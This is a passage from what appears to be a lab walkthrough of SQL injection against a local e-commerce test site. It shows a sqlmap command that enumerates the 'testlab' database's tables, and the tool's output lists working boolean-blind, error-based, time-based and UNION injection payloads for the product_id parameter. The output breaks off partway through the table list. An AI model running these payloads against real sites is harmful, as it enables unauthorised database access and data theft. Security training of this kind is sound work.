 Alright, so now we know that the database name is called __testlab__. Let's continue on and enumerate the tables in the testlab database using the `--tables` option, and the `-D` option to set the database name.

```console
root@kali:~/gds# sqlmap -u "http://localhost:8080/index.php?route=product/product&product_id=53" -p product_id -D testlab --tables
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.0.12#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 21:52:13

[21:52:14] [INFO] resuming back-end DBMS 'mysql' 
[21:52:14] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: product_id (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: route=product/product&product_id=53 RLIKE (SELECT (CASE WHEN (7914=7914) THEN 53 ELSE 0x28 END))

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: route=product/product&product_id=53 AND (SELECT 8445 FROM(SELECT COUNT(*),CONCAT(0x717a707671,(SELECT (ELT(8445=8445,1))),0x716a626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: route=product/product&product_id=53 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: route=product/product&product_id=53 UNION ALL SELECT NULL,NULL,CONCAT(0x717a707671,0x725662454c43554b68684f43466171746e51794c4a6d677568725856746f66754654414a6e635452,0x716a626a71)-- FTqd
---
[21:52:14] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.4.45, Nginx
back-end DBMS: MySQL >= 5.0
[21:52:14] [INFO] fetching tables for database: 'testlab'
[21:52:14] [WARNING] reflective value(s) found and filtering out
[21:52:14] [INFO] the SQL query used returns 133 entries
[21:52:15] [INFO] retrieved: oc_address
[21:52:15] [INFO] retrieved: oc_affiliate
[21:52:15] [INFO] retrieved: oc_affiliate_activity
[21:52:16] [INFO] retrieved: oc_affiliate_login
[21:52:16] [INFO] retrieved: oc_affiliate_transaction
[21:52:16] [INFO] retrieved: oc_api
[21:52:16] [INFO] retrieved: oc_api_ip
[21:52:17] [INFO] retrieved: oc_api_session
[21:52:17] [INFO] retrieved: oc_attribute
[21:52:17] [INFO] retrieved: oc_attribute_description
[21:52:17] [INFO] retrieved: oc_attribute_group
[21:52:18] [INFO] retrieved: oc_attribute_group_description
[21:52:18] [INFO] retrieved: oc_banner
```